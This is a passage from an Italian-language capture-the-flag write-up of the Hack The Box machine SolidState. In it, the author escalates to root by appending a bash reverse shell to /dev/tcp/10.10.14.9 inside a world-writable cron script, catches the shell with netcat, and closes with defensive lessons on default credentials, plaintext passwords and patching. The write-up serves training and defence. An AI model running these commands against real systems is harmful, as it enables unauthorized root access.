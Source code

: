 Vediamo se abbiamo i permessi di scrittura se cosi fosse possiamo modificare il file ed inserire una revshell. Ed una volta che il file verrà eseguito dal cronjob verrà eseguito come root e avremmo la nostra shell da root 

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -la tmp.py
-rwxrwxrwx 1 root root 105 Aug 22  2017 tmp.py
```

Perfetto inseriamo la nostra revshell

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.9/9443 0>&1"')
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$
```

ci mettiamo in ascolto con nc ed aspettiamo che il cronjob venga eseguito

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# nc -lnvp 9443
listening on [any] 9443 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.51] 39194
bash: cannot set terminal process group (13552): Inappropriate ioctl for device
bash: no job control in this shell
root@solidstate:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@solidstate:~#
```

# LESSON LEARNED

Per ottenere un punto d'appoggio iniziale sulla scatola abbiamo sfruttato tre vulnerabilità.

1. Utilizzo delle credenziali predefinite. L'amministratore ha utilizzato la password predefinita fornita con l'applicazione. Poiché le credenziali predefinite sono pubblicamente disponibili e possono essere facilmente ottenute, l'utente dovrebbe invece utilizzare una password sufficientemente lunga e difficile da decifrare.

2. Le credenziali SSH sono memorizzate in chiaro in una delle e-mail dell'utente. Se è necessario che la password venga trasmessa via e-mail, l'utente dovrebbe aver cambiato la password al primo accesso.

3. Una vulnerabilità Remote Code Execution (RCE) con il server James Remote che ci ha permesso di ottenere l'accesso iniziale alla macchina. Ciò avrebbe potuto essere evitato se l'utente avesse corretto il sistema e installato la versione più recente del software.
